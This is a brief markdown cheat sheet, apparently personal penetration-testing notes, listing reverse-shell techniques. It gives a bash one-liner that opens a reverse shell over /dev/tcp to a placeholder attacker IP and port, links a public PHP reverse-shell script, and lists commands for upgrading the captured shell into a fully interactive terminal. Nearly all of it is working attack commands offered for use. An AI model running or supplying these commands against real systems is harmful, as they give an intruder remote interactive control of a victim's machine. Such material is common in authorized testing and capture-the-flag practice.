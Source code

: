 # Reverse Shells - Examples

https://www.revshells.com/

## Bash

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"

## PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php


## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background
	CTRL+Z

	stty raw -echo
	fg
	export TERM=xterm


## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash